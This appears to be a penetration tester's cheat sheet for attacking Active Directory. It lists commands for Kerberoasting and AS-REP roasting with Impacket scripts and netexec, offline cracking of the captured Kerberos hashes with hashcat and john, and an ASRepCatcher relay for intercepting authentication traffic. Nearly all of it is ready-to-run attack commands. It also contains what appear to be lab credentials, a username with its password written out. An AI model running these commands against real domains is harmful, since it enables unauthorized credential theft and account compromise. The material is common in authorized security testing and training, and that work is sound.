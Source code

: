 **Kerberoasting :**

```sh
GetUserSPNs.py breach.vl/Julia.wong:Computer1 -dc-ip $t

GetUserSPNs.py -outputfile kerberoastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER'

netexec ldap $TARGETS -u $USER -p $PASSWORD --kerberoasting kerberoastables.txt --kdcHost $KeyDistributionCenter

GetUserSPNs.py -no-preauth "Asreproastable_User" -usersfile "LIST_USERS" -dc-host "dc.domain.local" "domain.local"/
#No_preauth_user=Kerberoastable user
proxychains -q nxc ldap 10.10.168.101 -u svc-web-accounting-d -p 'H3r0n2024#!' --kerberoasting output.txt
```

```sh
john --format=krb5tgs --wordlist= /usr/share/wordlists/rockyou.txt hash
hashcat -m 13100 kerberoastables.txt $wordlist
```

**Asreproast :**

- Users list dynamically queried with an LDAP anonymous bind
```sh
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/'
```

- With a users file
```
GetNPUsers.py -usersfile users.txt -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/'
```

- Users list dynamically queried with a LDAP authenticated bind (password)
```sh
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password'
```

- Users list dynamically queried with a LDAP authenticated bind (NT hash)
```sh
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER'
```

- Netexec 
```sh
netexec ldap $TARGETS -u $USER -p $PASSWORD --asreproast ASREProastables.txt --KdcHost $KeyDistributionCenter
```

- Crack
```sh
hashcat -m 18200 -a 0 ASREProastables.txt $wordlist
john --wordlist=$wordlist ASREProastables.txt
```

- MitM:

```sh
# Proxy between the clients and the DC, forcing RC4 downgrade if supported
ASRepCatcher relay -dc $DC_IP

# Disables ARP spoofing (the MitM must be obtained with other means)
ASRepCatcher relay -dc $DC_IP --disable-spoofing

# Passively listen for AS-REP packets, no packet alteration
ASRepCatcher listen
```